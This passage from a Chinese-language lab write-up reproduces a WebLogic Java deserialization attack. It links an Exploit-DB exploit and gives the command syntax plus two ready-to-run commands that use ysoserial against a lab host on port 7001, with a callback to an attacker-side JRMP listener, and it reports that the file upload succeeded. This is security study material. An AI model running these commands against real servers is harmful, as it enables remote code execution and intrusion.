 然后利用该`exp`进行攻击,可见成功上传文件

[exp下载地址](https://www.exploit-db.com/exploits/44553)

**执行命令**

```
python2 exploit.py [目标ip] [目标port] [ysoserial路径] [JRMPListener ip] [JRMPListener port] [JRMPClient]

```


**Using java.rmi.registry.Registry**

```
python2 .\exp.py 192.168.91.131 7001 .\ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.91.1 9633 JRMPClient
```

**Using java.rmi.activation.Activator**

```
python2 .\exp.py 192.168.91.131 7001 .\ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.91.1 9633 JRMPClient2

```

![](img/9.png)

- linux

- [搭建教程](https://www.cnblogs.com/zhangan/p/10862585.html)
